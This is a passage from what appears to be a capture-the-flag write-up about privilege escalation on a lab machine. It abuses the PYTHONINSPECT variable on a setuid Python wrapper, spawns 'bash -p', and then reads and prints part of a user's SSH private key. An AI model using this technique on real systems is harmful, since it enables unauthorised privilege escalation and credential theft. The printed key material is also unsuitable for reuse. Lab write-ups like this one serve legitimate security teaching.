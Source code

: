 Odie really loves his school, he even made a script for checking the disponibility of the website. Beautiful.

However, it's a python script and the binary seems to be used as a wrapper to execute this script. Fortunately, it got the sticky bit, which means that if we can execute commands through this binary, then we will have rights of __odie__ user on the system.

Environment variable `PYTHONINSPECT` will force the inspection mode. It means a python console will appear at this end of python script execution. With the binary's rights ;)

```bash
rev-shell $ PYTHONINSPECT=1 /usr/local/bin/ensibsproject                

 _____           _ _                                  _    
| ____|_ __  ___(_) |__  ___   ___  ___  ___ _ __ ___| |_  
|  _| | '_ \/ __| | '_ \/ __| / __|/ _ \/ __| '__/ _ \ __| 
| |___| | | \__ \ | |_) \__ \ \__ \  __/ (__| | |  __/ |_  
|_____|_| |_|___/_|_.__/|___/_|___/\___|\___|_|  \___|\__| 
 _ __  _ __ ___ (_) ___  ___| |_                           
| '_ \| '__/ _ \| |/ _ \/ __| __|                          
| |_) | | | (_) | |  __/ (__| |_                           
| .__/|_|  \___// |\___|\___|\__|                          
|_|           |__/                                         

Traceback (most recent call last):
  File "/home/odie/project.py", line 16, in <module>
    import requests
ImportError: No module named requests
>>> import os; os.system('/bin/bash -p')
```

<center>
![](/img/infosec_stuff/odie_gs/red_16.gif)
</center>

The "-p" argument of bash allow conserving rights. Otherwise, we would have had a bash as __www-data__, not really interesting in our case.

Let's see if the user __odie__ got an SSH private key. It would be more convenient with a SSH shell, and more discreet.

```bash
rev-shell $ ls -la /home/odie/
total 64d
drwxr-xr-x 5 odie odie  4096 Dec 27 05:50 .
drwxr-xr-x 3 root root  4096 Dec 26 20:18 ..
-rw------- 1 odie odie  6335 Dec 27 05:37 .bash_history
-rw-r--r-- 1 odie odie   220 Dec 26 20:18 .bash_logout
-rw-r--r-- 1 odie odie  3526 Dec 26 20:18 .bashrc
drwx------ 3 odie odie  4096 Dec 27 05:09 .cache
drwx------ 4 odie odie  4096 Dec 27 05:09 .local
-rw-r--r-- 1 odie odie   675 Dec 26 20:18 .profile
drwxr-xr-x 2 odie odie  4096 Dec 27 05:46 .ssh
-rw------- 1 odie odie 10478 Dec 27 05:40 .viminfo
-rwxr-xr-x 1 odie odie   934 Dec 27 05:08 project.py

rev-shell $ cat /home/odie/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1VMOMwtecWKwr4SnW41bi7ALoelNH6mQ2s5jNlbwSa6iBCmG
aOvZZXNc6JrNZU/TMHKgigpxwt1DKWQ9UvWi3i6X/CpVgjrv3z/2VPhPO4GJU0JX
Q7NWpYv4s4ULgUhSIKxcnTvof6fxLAu9NxCGiLq6tL5ZG3naN9ITDK9MhFgrKYMH
/jTsiqdv/CkVhVK3EZHaKgqcJPxhkNInxM1S8mblPUrYQD/9rL8iq1YQyHhRddjU
zm1BT7j3vE8ukxs7VDeVgYEFS0HTRfyifQMLb+oa/GbMnoi73if9H9gVFMPdO6va
jyb5KUMB59/gheaFVEF5FWrQH3NNbnSX46SQIwIDAQABAoIBAQCbiBCkOrfC53d2
oLr8TxXdxJ7Wj6jBWvnX7f370msi7YYGjtgGi15XT0L//E2gfhC2E/zkaDUFJBkh
hooHgDwczc/V9G+foaTeGl5ZGSl7czhSUd4Z6BlWXbUX/fqjab0nQUPNB6691A5M
VMrB6PSNn8ccnGOPWso1RJ7K8sxQ+DrG3ry/xVxcq+ciyBeLrZjS4QJeybEjMEcl
```